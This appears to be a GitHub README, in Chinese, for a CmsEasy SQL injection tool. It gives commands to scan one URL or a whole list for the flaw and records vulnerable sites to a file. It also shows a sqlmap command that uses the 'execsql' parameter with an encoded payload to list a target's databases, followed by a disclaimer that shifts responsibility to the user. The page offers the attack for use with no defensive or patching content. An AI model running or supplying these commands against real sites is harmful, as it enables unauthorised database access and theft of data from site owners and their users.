


# CmsEasy_sql

CmsEasy 存在SQL注入漏洞。

## 工具利用

python3 cmseasy_sql_scan.py -u http://127.0.0.1:1111 单个url测试

python3 cmseasy_sql_scan.py -f url.txt 批量检测
扫描结束后会在当前目录生成vuln.txt记录存在漏洞的url

sql注入执行
python sqlmap.py -u "https://xxx.xxx.xxx.xxx/?case=crossall&act=execsql&sql=Ud-ZGLMFKBOhqavNJNK5WRCu9igJtYN1rVCO8hMFRM8NIKe6qmhRfWexXUiOqRN4aCe9aUie4Rtw5" --dbs

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
